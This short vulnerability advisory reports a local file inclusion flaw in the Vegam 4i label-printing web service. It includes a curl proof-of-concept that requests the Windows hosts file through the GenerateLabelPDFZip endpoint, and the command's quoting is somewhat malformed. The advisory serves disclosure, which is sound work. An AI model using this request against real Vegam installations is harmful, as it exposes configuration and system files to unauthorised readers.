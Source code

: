 ## Vegam 4i 

### Version affected <=6.3.47.0
___
<br>
The print label function in Vegam 4i is vulnerable to a Local file Inclusion vulnerability, allowing an malicious user to include files on web server such as web.config, etc/host within the response leading to sensitive information disclosure.
cURL command:

```curl
curl -i -s -k -X $'POST' -H $'Cookie:' -H $'CSRF-Token:' --data-binary $'\0xd\0xa{\"filePathList\":[\"C:/Windows/System32/Drivers/etc/hosts\"],\"iterationCount\":4,"\labelNumberList":[]\0xd\0xa} https://your_instance/iPAS/WebServices/ipas_LabelPrintService.asmx/GenerateLabelPDFZip
```

